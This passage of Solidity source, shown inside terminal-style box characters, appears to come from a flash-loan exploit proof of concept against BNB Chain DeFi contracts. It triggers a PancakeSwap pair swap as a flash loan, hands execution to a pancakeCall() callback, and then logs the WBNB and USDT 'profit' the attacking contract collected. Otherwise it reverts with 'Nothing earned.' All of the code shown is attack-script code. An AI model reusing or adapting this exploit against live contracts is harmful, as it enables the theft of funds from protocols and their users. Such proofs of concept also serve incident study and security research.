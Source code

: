 │                 pairs[0].swap(_amount0 - 1, 0, address(this), abi.encode(0, 0));                                                                                                                                                                      │
│             }                                                                                                                                                                                                                                         │
│                                                                                                                                                                                                                                                       │
│             // execution passes to pancakeCall()                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                       │
│             // all flashloans have been repaid!                                                                                                                                                                                                       │
│             emit log_string("All flashloans have been repaid!");                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                       │
│             //Collect profit                                                                                                                                                                                                                          │
│             emit log_named_decimal_uint(                                                                                                                                                                                                              │
│                 "Collected WBNB profit:",                                                                                                                                                                                                             │
│                 IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                │
│                 IERC20(WBNB).decimals()                                                                                                                                                                                                               │
│             );                                                                                                                                                                                                                                        │
│             emit log_named_decimal_uint(                                                                                                                                                                                                              │
│                 "Collected USDT profit:",                                                                                                                                                                                                             │
│                 IERC20(USDT).balanceOf(address(this)),                                                                                                                                                                                                │
│                 IERC20(USDT).decimals()                                                                                                                                                                                                               │
│             );                                                                                                                                                                                                                                        │
│         } else {                                                                                                                                                                                                                                      │
│             revert("Nothing earned.");                                                                                                                                                                                                                │